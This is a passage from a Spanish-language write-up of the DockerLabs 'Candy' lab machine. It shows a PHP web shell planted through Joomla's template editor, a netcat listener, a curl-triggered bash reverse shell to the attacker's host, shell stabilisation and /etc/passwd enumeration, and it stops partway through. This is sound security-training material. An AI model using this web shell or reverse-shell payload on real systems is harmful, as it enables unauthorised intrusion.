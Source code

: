 ## Vulnerability Exploitation

Con acceso administrativo al panel de Joomla, aprovecho la funcionalidad de edición de plantillas para ejecutar comandos arbitrarios. Desde el menú `System > Site Templates > Cassiopeia Details and Files > component.php` edito el archivo e inserto código PHP, `system($_GET['cmd']);`.

{% include embed/video.html src='assets/img/dockerlabs-writeup-candy/candy1_5.webm' types='webm' title='Foothold' autoplay=true loop=true muted=true %}

Escucho conexiones entrantes con netcat en el puerto 4321.

```terminal
/home/kali/Documents/dockerlabs/candy:-$ nc -lnvp 4321
	listening on [any] 4321 ...
```

Luego disparo la carga útil para enviarme una conexion reversa.

```terminal
/home/kali/Documents/dockerlabs/candy:-$ curl http://172.17.0.3/templates/cassiopeia/component.php\?cmd\=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.2%2F4321%200%3E%261%22

	... connect to [172.17.0.2] from (UNKNOWN) [172.17.0.3] 53364.

www-data@66b028a2a370:/var/www/html/joomla/templates/cassiopeia$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

Restauro el entorno interactivo para mejorar la visibilidad y control de la shell.

```terminal
www-data@90d89cd7471b:/var/www/html/joomla/templates/cassiopeia$ script /dev/null -c bash 
www-data@90d89cd7471b:/var/www/html/joomla/templates/cassiopeia$ ^Z 

/home/kali/Documents/dockerlabs/candy:-$ stty raw -echo;fg 
[1]  + continued  nc -nvlp 4321
				reset xterm
www-data@90d89cd7471b:/var/www/html/joomla/templates/cassiopeia$ export TERM=xterm
www-data@90d89cd7471b:/var/www/html/joomla/templates/cassiopeia$ export SHELL=bash 
www-data@90d89cd7471b:/var/www/html/joomla/templates/cassiopeia$ stty rows 36 columns 138
```

Consulto el archivo `/etc/passwd` para identificar otros usuarios del sistema, los cuales poseen shells válidos.

```terminal
www-data@66b028a2a370:/var/www/html$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash
```

Realizo una búsqueda de archivos legibles o pertenecientes al usuario `www-data`, excluyendo rutas irrelevantes. Descubro un archivo inusual, ubicado en `/var/backups/hidden/`.

